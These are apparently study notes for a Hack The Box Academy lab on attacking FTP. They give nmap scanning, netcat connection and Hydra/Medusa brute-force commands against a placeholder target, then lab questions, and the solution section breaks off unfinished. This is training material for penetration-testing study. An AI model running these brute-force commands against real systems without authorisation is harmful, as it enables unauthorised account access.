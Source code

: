 [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

### Connecting to the FTP server using the ftp client:
```
ftp $TARGET_IP
```
### Connecting to the FTP server using netcat:
```
nc -v $TARGET_IP $PORT
```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

## Solution:
1. 